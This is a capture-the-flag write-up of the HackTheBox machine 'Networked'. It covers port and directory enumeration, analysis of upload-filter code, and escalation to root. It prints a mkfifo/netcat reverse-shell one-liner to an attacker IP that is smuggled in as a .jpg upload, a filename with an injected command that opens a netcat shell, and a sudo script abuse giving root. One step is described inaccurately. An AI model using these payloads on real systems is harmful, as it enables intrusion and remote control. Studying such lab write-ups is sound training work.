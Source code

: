 # Networked
## HackTheBox

#### NMAP
   PORT   STATE SERVICE REASON         VERSION
 * 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
 * 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
    http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
    http-methods:
      Supported Methods: GET HEAD POST OPTIONS
    http-title: Site doesn't have a title (text/html; charset=UTF-8).

#### Port 80
> Hello mate, we're building the new FaceMash!
> Help by funding us and be the new Tyler&Cameron!
> Join us at the pool party this Sat to get a glimpse

Found in source:
`<!-- upload and gallery not yet linked -->` 

#### Directories
```
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.235.199
 🚀  Threads               │ 80
 📖  Wordlist              │ /SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 🦡  User-Agent            │ feroxbuster/2.3.2
 💾  Output File           │ dirs/initialDir.log
 💲  Extensions            │ [php, html, txt]
──────────────────────────────────────────────────
200        8l       40w      229c http://10.129.235.199/index.php
301        7l       20w      238c http://10.129.235.199/uploads
200       22l       88w     1302c http://10.129.235.199/photos.php
200        1l        1w        2c http://10.129.235.199/uploads/index.html
200        5l       13w      169c http://10.129.235.199/upload.php
200        0l        0w        0c http://10.129.235.199/lib.php
301        7l       20w      237c http://10.129.235.199/backup
```
 * File upload available at `http://10.129.235.199/upload.php` 
 * File directory at `http://10.129.235.199/backup/` with file `backup.tar`

#### '/backup/` with file `backup.tar`
`wget http://10.129.235.199/backup/backup.tar` - saved in `/files`

The following files were listed in backup:
```Console
-rw-r--r--  staff  10240 Jul  9  2019 backup.tar
-rw-r--r--  staff    229 Jul  9  2019 index.php
-rw-r--r--  staff   2001 Jul  2  2019 lib.php
-rw-r--r--  staff   1871 Jul  2  2019 photos.php
-rw-r--r--  staff   1331 Jul  2  2019 upload.php
```

Photos.php
 * Gives file directories:
   * /var/www/html/lib.php
   * /var/www/html/uploads/

Interesting code in `photos.php`:
```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$ignored = array('.', '..', 'index.html');
$files = array();

$i = 1;
echo '<div class="tg-wrap"><table class="tg">'."\n";

foreach (scandir($path) as $file) {
  if (in_array($file, $ignored)) continue;
  $files[$file] = filemtime($path. '/' . $file);
}
```

From `photos.php`
```php
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
```
 * Requires files less than 60000 bytes = 60kb
 * Requires uploaded file to have one of the following extensions: '.jpg', '.png', '.gif', '.jpeg'

Bypass file size by injecting code into the image itself
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.14.29 4242 >/tmp/f' > ProfileBlue.jpg`
 * Uploaded file to uploads
 * set up ncat listner to port 4242

**Note to self**
Remember the difference between using `>` and `>>`

 * shell achieved

#### User
 * User with no access to user. After some console setting adjustments
 * There is a user `guly` where the user flag is saved.
 * Found `check_attack.php` in the user's folder (copied and saved in `/files`
   * unfiltered command `rm` to remove unwanted files in the `/var/www/html/uploads/` path
   * create a file containing payload: command prepended with a ; to have guly execute `nc $IP 8888 -c bash`
   * command `touch '; nc <IP> 8888 -c bash`
   * After a bit of a wait, a connection was made.

user flag: `526*****************************`

#### Privesc as guly
Checked `sudo -l`
```Console
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
  * saved this in `/files`

references file `/etc/sysconfig/network-scripts/ifcfg-guly`
Provide argument `bash` when it asks for name, run as `sudo`

```Console
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `0a8*****************************`
